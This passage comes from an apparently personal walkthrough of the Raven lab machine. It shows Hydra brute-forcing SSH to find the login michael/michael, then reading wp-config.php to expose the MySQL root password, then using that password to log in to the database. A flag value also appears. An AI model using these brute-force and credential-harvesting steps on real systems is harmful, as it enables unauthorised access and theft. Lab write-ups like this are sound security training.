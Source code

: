 ```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-03-04 21:08:31
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:2/p:3), ~1 try per task
[DATA] attacking ssh://10.0.2.5:22/
[22][ssh] host: 10.0.2.5   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-03-04 21:08:32
```
<p>
And with that, we get michael's SSH password and a low privilege shell.
Log in with <code>ssh michael@10.0.2.5</code>. Now we start enumerating again.
Now that we have a shell, let's take a look at the wordpress folder. Specifically, in <code>wp-config.php</code>. On the way there, I stumbled across flag 2, in /var/www/:
<code>flag2{fc3fd58dcdad9ab23faca6e9a36e581c}</code>.
</p>

```
michael@Raven:/var/www/html/wordpress$ cat wp-config.php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
[...]
```
<p>
We find the credentials to log into the MySQL database. Wordpress requires MySQL or MariaDB to work, so the credentials for either were likely to exist on the machine. Let's try logging in with the password we found.
</p>

```
michael@Raven:/var/www/html/wordpress$ mysql -u root -p wordpress
Enter password: R@v3nSecurity
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 294
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql>
```
<p>
And it worked. We get a prompt. Let's start poking around.